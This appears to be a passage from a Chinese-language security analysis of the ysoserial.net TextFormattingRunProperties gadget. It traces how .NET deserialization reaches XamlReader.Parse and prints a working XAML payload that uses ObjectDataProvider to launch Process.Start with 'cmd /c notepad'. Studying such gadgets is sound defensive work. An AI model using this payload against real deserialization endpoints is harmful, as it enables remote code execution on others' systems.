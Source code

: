 查看ysoserial.net源码可发现，TextFormattingRunPropertiesGenerator会返回一个`[Microsoft.PowerShell.Editor]Microsoft.VisualStudio.Text.Formatting.TextFormattingRunProperties`对象的序列化数据，同时添加了一个键名为`ForegroundBrush`，值为`xaml字符串`的序列化信息。

```
public void GetObjectData(SerializationInfo info, StreamingContext context)
`{`
  Type typeTFRP = typeof(TextFormattingRunProperties);
  info.SetType(typeTFRP);
  info.AddValue("ForegroundBrush", _xaml);
`}`
```

查看`Microsoft.VisualStudio.Text.Formatting.TextFormattingRunProperties..ctor(SerializationInfo,StreamingContext)`的代码，可以看到在反序列化过程中会取出这个xaml，之后调用`[PresentationFramework]System.Windows.Markup.XamlReader.Parse`进行解析：

```
private object GetObjectFromSerializationInfo(string name, SerializationInfo info)
`{`
    string @string = info.GetString(name);
    if (@string == "null")
    `{`
        return null;
    `}`
    return XamlReader.Parse(@string);
`}`
```

其调用堆栈大致如下：

```
[PresentationFramework]System.Windows.Markup.XamlReader.Parse
Microsoft.VisualStudio.Text.Formatting.TextFormattingRunProperties.GetObjectFromSerializationInfo
Microsoft.VisualStudio.Text.Formatting.TextFormattingRunProperties..ctor
```

xaml是wpf的界面组件代码，可以通过xml的形式构建窗体对象或存放运行时所需的资源。在执行`XamlReader.Parse`时会实例化其中声明的对象，并绑定属性。

在解析器的实现中，`ResourceDictionary`负责对静态资源进行存储，`ObjectDataProvider`作为工厂类负责通过方法调用等方式生成对象。如果为ObjectDataProvider提供恶意方法，同样可以达到代码执行的目的。

对照ysoserial.net生成的xaml：第一行表示该xaml为一个ResourceDictionary对象；第二行将`System`、`System.Diagnostics`两个命名空间和xmlns进行映射；第三行声明了一个ObjectDataProvider，并将其`ObjectType`属性赋值为`typeof(System.Diagnostics.Process)`，`MethodName`属性赋值为`Start`；第四行至第七行声明了调用该方法是要传递的参数，分别为`cmd`和`"/c notepad"`。

```
&lt;ResourceDictionary xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" 
    xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"
  xmlns:System="clr-namespace:System;assembly=mscorlib" 
    xmlns:Diag="clr-namespace:System.Diagnostics;assembly=system"&gt;
     &lt;ObjectDataProvider x:Key="" ObjectType="`{`x:Type Diag:Process`}`" MethodName="Start" &gt;
     &lt;ObjectDataProvider.MethodParameters&gt;
        &lt;System:String&gt;cmd&lt;/System:String&gt;
        &lt;System:String&gt;"/c notepad"&lt;/System:String&gt;
     &lt;/ObjectDataProvider.MethodParameters&gt;
    &lt;/ObjectDataProvider&gt;
&lt;/ResourceDictionary&gt;
```
